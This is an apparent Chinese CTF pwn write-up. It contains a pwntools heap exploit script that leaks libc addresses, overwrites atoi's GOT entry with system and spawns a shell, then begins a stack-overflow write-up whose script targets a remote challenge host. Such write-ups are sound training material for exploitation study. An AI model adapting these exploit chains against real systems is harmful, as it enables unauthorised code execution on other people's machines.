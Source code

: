     add(0x70*'A','1')
    add(0x80*'B'+'\x10','1')
    add(0x80*'C','A'*0x80+'\x10')
    io.recvuntil('B'*0x8)
    leak = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(leak))
    
    func_addr = leak - 0x30
    fake_chunk_addr = leak + 0xc0
    fake_chunk = 'A'*0x8+p64(func_addr)
    payload = str(0x20171).ljust(0x80,'A') + p64(fake_chunk_addr)
    add(fake_chunk,payload)
    io.recvuntil('<')
    func = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(func))
    proc_addr = func - 0xb30
    atoi_got = proc_addr + elf.got['atoi']
    fake_chunk = 'a'*0x8 + p64(atoi_got)
    payload = str(0x20171 - 0x50).ljust(0x80,'A') + p64(leak + 0xc0 +0x50)
    add(fake_chunk,payload)
    io.recvuntil('<')
    libc_base = u64(io.recvline()[0:6].ljust(8,'\x00')) - libc.symbols['atoi']
    log.success(hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.success(hex(system))
    add('s3cunDa',str(system).ljust(0x80,'A')+p64(atoi_got - 0x18))
    add('s3cunDa','/bin/sh')
    io.interactive()

这么简单题我为什么那时候没做出来。。。
***10.main***
保护除了nx都没有开
典型的栈溢出题目（我很讨厌栈溢出说实话，但是考虑到队伍里就我一个pwn选手还是要看）
溢出处主要是

    000000000000000A buf             db 10 dup(?)            ; base 10
    +0000000000000000  s              db 8 dup(?)
    +0000000000000008  r              db 8 dup(?)
还有这里

    puts("stack:");
      return read(0, &buf, 0x20uLL);
主要就是溢出的字节数太少了
可以选择栈转移pivot或者别的奇技淫巧
这里有一个很好的技巧
利用的数rbp字段每次都会保存
具体payload如下：

    from pwn import *
    context.log_level = "debug"
    #p = process("./task_main")
    
    p = remote("202.112.51.184", 30002)
    elf = ELF("./task_main")
    libc = ELF("/libc.so.6")
    
